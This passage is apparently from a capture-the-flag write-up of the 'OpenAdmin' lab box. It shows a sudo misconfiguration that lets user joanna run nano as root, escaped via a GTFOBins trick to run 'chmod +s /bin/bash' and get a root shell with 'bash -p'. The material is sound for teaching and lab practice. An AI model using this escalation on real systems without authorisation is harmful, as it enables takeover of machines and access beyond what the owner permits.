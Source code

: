 ```
 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
```

*after loggin in,* we find no interesting files in her home directory. but she shows to have interesting permissions using `sudo -l -l`

```
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:

Sudoers entry:
    RunAsUsers: ALL
    Options: !authenticate
    Commands:
        /bin/nano /opt/priv
```

**that's it!** we can now escalate privileges to root.
A quick search on GTFO bins reveals a way we can do that using `CTRL+R` followed by `CTRL+X`

![gtfo](gtfo.jpg)

we use the command `/bin/nano /opt/priv` and issue a command as root `chmod +s /bin/bash`. This makes the `bash` shell run with `setuid` bit. and makes us able to run as the `root` use when using `bash` with the `-p` flag. we do that and voala :D
